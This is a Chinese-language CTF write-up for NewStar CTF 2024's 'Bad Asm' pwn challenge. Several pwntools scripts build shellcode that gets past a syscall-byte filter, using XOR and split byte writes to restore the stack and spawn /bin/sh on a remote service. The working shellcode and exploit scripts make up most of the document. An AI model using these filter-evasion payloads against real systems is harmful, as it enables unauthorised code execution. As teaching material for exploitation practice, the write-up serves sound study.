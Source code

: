 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# Bad Asm

程序过滤 `syscall` / `sysenter` / `int 0x80` 的汇编指令的机器码。

`strcpy` 限制了 shellcode 的机器码中不能出现 `0x00`.

开启的可执行的段具有写的权限，用异或搓出来 syscall 的机器码之后用 `mov` 写入到 shellcode 后面，中间用 `nop` 连接一下就行了。

由于程序清空了 `rsp` `rbp` 寄存器，我们需要恢复一下 `rsp` 的值，任意一个可读写的段即可，否则 `push` 操作会寄掉。

可以用异或先把 syscall 的机器码插入到当前 shellcode 的后面来执行 `read` 的 syscall，利用 `read` 在旧的 shellcode 后面插入 `execve("/bin/sh", 0, 0)` 的 shellcode，第二次输入的 payload 中 `0x42` 个 `a` 的作用是覆盖掉旧的 shellcode，毕竟执行过了也没用了。

恢复 `rsp` 的作用是为了能够正常执行 `push` `pop` 指令，这里 `push` `pop` 指令位于 `shellcraft.sh()` 生成的 shellcode中 。否则其生成的 shellcode 无法正常执行。

```python
# sudo sysctl -w kernel.randomize_va_space=0
from pwn import *
from Crypto.Util.number import long_to_bytes, bytes_to_long

context.log_level='debug'
context(arch='amd64', os='linux')
context.terminal=['tmux', 'splitw', '-h']

ELFpath = './pwn'
p=remote('???.???.???.???', ?????)

# p=process(ELFpath)
# gdb.attach(p)

shellcode='''
; // 目标: 使用 syscall 执行 read(0, code, 0x3fff)
mov rsp, rdi
mov rax, rdi
add sp, 0x0848 ; // 从开头到这里的作用是给 rsp 一个合法值，使 push/pop 指令能够正常执行。同时设置 rax 的值方便后面往当前 shellcode 末尾拼接上 syscall 指令的机器码。

mov rsi,rdi
mov dx, 0x3fff ; // 这两行作用是设置 rsi rdx 寄存器

mov cx, 0x454f
xor cx, 0x4040 ; // 这两行作用是用异或搓出来 0f 05 (syscall 的机器码)
add al, 0x40
mov [rax], cx  ; // rax原本指向的是当前段的开始位置，加上一个偏移，在之后指向的地方写入 0f 05，即 syscall，相当于拼接到当前 shellcode 后面。

xor rdi, rdi
xor rax, rax   ; // 设置 read 的系统调用号 0，设置 rdi 寄存器
'''
p.sendafter("Input your Code :", asm(shellcode).ljust(0x40, b'\x90')) # \x90是nop指令的机器码，用于连接上面的shellcode和写入的syscall，使程序能正常执行。

pause()
p.send(b'a'*0x42+asm(shellcraft.sh())) # 0x42个a正好覆盖了syscall，之后拼接新的shellcode会继续执行本次写入的新的shellcode
p.interactive()
```

除了异或的方法，我们可以用另一种方法布置 syscall 的机器码。

题目检查 syscall 的时候采用的方法是检测相邻两个字节，所以我们可以将两个字节分别用一个汇编指令写入到内存中，比如用 `mov`，这样我们就可以将其机器码 `0xf 0x5` 拆开，而不是连续的字节，这样也可以通过检查。

```python
mov byte ptr [r8 + 0x17], 0xf
mov byte ptr [r8 + 0x18], 0x5
```

最后保证控制执行流执行到写入的 `0f05` 那里就行了。

下面的 EXP 中直接异或搓了一个 `execve("/bin/sh", 0, 0)`，这样也是可以的。

```python
# sudo sysctl -w kernel.randomize_va_space=0
from pwn import *
from Crypto.Util.number import long_to_bytes,bytes_to_long

context.log_level='debug'
context(arch='amd64', os='linux')
context.terminal=['tmux', 'splitw', '-h']

ELFpath = './pwn'
p=remote('???.???.???.???', ?????)

# p=process(ELFpath)
# gdb.attach(p)

shellcode='''
; // 目标: 执行 execve("/bin/sh", 0, 0) 的 syscall
mov rsp, rdi
add sp, 0x0848 ; // 给 rsp 一个合法值，使程序能正常执行 push/pop，任意一个可读写段即可，我们这里刚好有rdi中存储的 shellcode 的段的起始位置，正好这个段有读写权限，就直接拿来在 0x848 偏移的位置当作栈顶了（加偏移是为了防止某些操作破坏写入的 shellcode）
mov rsi, 0x4028636f2e49226f
mov rdx, 0x4040104040204040
xor rsi, rdx
push rsi       ; //异或搓出来'/bin/sh\x00'(正好 8 字节，一个寄存器能存下) 并p ush 到栈上面。此时 rsp 指向的即此字符串的开始位置

mov ax, 0x454f
xor ax, 0x4040
mov rsi, rdi
add sil, 0x40
mov [rsi], ax  ; // 搓出来 syscall 的机器码 0f 05 并且拼接到当前 shellcode 后面。

mov rdi, rsp   ; // 设置 rdi，指向之前 push 到栈上面的 '/bin/sh\x00'
xor rsi, rsi
xor rdx, rdx   ; // 设置 rsi, rdx
xor rax, rax
mov al, 59     ; // 设置 execve 的系统调用号
'''
p.sendafter("Input your Code :", asm(shellcode).ljust(0x40, b'\x90'))
p.interactive()
```

除此之外，由于我们把栈放在可执行段上面了，我们可以直接异或整出来syscall的机器码然后push到栈上面，最后jmp rsp即可。由于这种方法我们并不依赖nop指令进行连接，在送payload的时候可以去掉ljust了

```python
# sudo sysctl -w kernel.randomize_va_space=0
from pwn import *
from Crypto.Util.number import long_to_bytes,bytes_to_long

context.log_level='debug'
context(arch='amd64', os='linux')
context.terminal=['tmux', 'splitw', '-h']

ELFpath = './pwn'
p=remote('???.???.???.???', ?????)

# p=process(ELFpath)
# gdb.attach(p)

shellcode='''
; // 目标: 执行 execve("/bin/sh", 0, 0) 的 syscall
mov rsp, rdi
add sp, 0x0848 ; // 给 rsp 一个合法值，使程序能正常执行 push/pop
mov rsi, 0x4028636f2e49226f
mov rdx, 0x4040104040204040
xor rsi, rdx
push rsi       ; //异或搓出来 '/bin/sh\x00' 并 push 到栈上面。此时 rsp 指向的即此字符串的开始位置

mov rdi, rsp   ; // 设置 rdi，指向之前push到栈上面的 '/bin/sh\x00'
xor rsi, rsi
xor rdx, rdx   ; // 设置 rsi, rdx
xor rax, rax
mov al, 59     ; //设置 execve 的系统调用号

mov cx, 0xf5ff
xor cx, 0xf0f0 ; // 异或拿到 syscall 的机器码
push rcx       ; // push 到栈顶，rsp 此时指向的是 syscall 指令
jmp rsp
'''

p.sendafter("Input your Code :", asm(shellcode))

p.interactive()
```

在把 `/bin/sh\x00` push 到栈上面的时候我们为了清除最后的 `0x00`，采用了异或的方法。除了这种方法外我们可以调整一下这个字符串，比如我们可以改为使用 `/bin///sh`，`shellcraft.sh()` 生成的 shellcode 采用的就是这种方法。

按照这种方法更改的 shellcode，也是可以拿到 shell 的

```python
shellcode='''
; // 目标: 执行 execve("/bin///sh", 0, 0) 的 syscall
mov rsp, rdi
add sp, 0x0848 ; // 给rsp一个合法值，使程序能正常执行push/pop

push 0x68
mov rax, 0x732f2f2f6e69622f
push rax       ; // 将 '/bin///sh' push 到栈上面，最后一个字符 h 是第 6 行 push 的，高位默认填充为 0，此时就不用异或了

mov rdi, rsp   ; // 设置 rdi，指向之前 push 到栈上面的 '/bin/sh\x00'
xor rsi, rsi
xor rdx, rdx   ; // 设置 rsi, rdx
xor rax, rax
mov al, 59     ; // 设置 execve 的系统调用号

mov cx, 0xf5ff
xor cx, 0xf0f0 ; // 异或拿到 syscall 的机器码
push rcx       ; // push 到栈顶，rsp 此时指向的是 syscall 指令
jmp rsp
'''
```
